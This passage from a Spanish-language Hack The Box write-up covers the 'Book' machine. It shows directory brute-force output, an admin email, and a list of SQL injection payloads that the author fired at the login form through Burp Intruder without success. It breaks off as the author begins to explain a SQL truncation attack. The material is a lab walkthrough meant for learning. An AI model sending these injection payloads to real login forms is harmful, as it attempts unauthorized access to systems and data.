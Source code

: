 ```
/contact.php          (Status: 302) [Size: 0] [--> index.php]                    
/db.php               (Status: 200) [Size: 0]                                    
/logout.php           (Status: 302) [Size: 0] [--> index.php]                    
/collections.php      (Status: 302) [Size: 0] [--> index.php]                    
/settings.php         (Status: 302) [Size: 0] [--> index.php]                    
Progress: 44866 / 441122 (10.17%)        
```
Lo paro en el 10% porque ya he encontrado alguna cosilla. Por ejemplo db.php y el directorio admin. El db.php no lo puedo leer porque me interpreta el php. En la ruta admin encuentra el panel de acceso para el usuario admin, parecido al de usuario, piden correo y contraseña. El correo del admin lo tenemos porque en "Contact us" salía; **admin@book.htb**.  
Bien, en este punto podríamos intentar un ataque de fuerza bruta pero tardaría lo suyo (mira lo que tarda la respuesta) y aun así puede que la password no este en el diccionario que vayamos a usar. Puedo probar algunas **inyecciones**, en el primer panel no probé. Así que vamos alla, como piden el  @ en el campo email pasaremos la petición al burpsuite para quitarnos esa restricción. La paso al "Repeater" e iré probando en ambos campos estas inyecciones( por agilizar las pongo el Intruder tipo Sniper, indicando los dos campos; email y passwords):
```
' or 1=1-- -
' and 1=1-- -
') or 1=1-- -
') and 1=1-- -
) or 1=1-- -
' order by 100-- -
' oder by 1-- -
' union select 1-- -
' union select 1,2-- -
'union select 1,2,3-- -
' union select 1,2,3,4-- -
' union select 1,2,3,4,5-- -
' union select 1,2,3,4,5,6-- -
' union select 1,2,3,4,5,6,7-- -
' limit 1,1 into 1-- -
' limit 1,2 into 1-- -
'  or sleep(5)-- -
' and sleep(5)-- -
' or '1'='1
' or '1'=1
' and '1'='1
' and '1'=1
' and '1'='2
```
Todas las respuestas devuelven misma longitud de caraceres que corresponden a la dura respuesta "Nope". NOSQLi también podríamos probar pero no es vulnerable.

## Explotación

Hay un tipo de ataque que no hemos probado, pocas veces lo he visto pero he de decir que no es tanta mi experencia. Me refiero al **SQL Truncation Attack**. Se podría caer en él, o al menos htb me dió la pista, porque se acortaba en el perfil un nombre de usuario más largo del máximo permitido. ¿En qué consiste?.
